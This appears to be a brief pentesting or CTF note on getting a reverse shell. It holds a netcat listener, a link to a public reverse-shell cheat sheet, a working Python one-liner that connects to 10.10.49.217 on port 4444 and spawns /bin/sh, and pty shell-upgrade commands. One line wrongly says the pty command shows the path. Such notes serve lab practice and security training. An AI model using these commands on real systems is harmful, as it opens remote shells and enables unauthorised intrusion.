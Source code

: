 **reverse shell**
nc -lvnp 4444
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.49.217",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

which python3
python3 -c ‘import pty; pty.spawn(“/bin/bash”)’ - to see the path/directory
python -c ‘import pty; pty.spawn(“/bin/bash”)’                

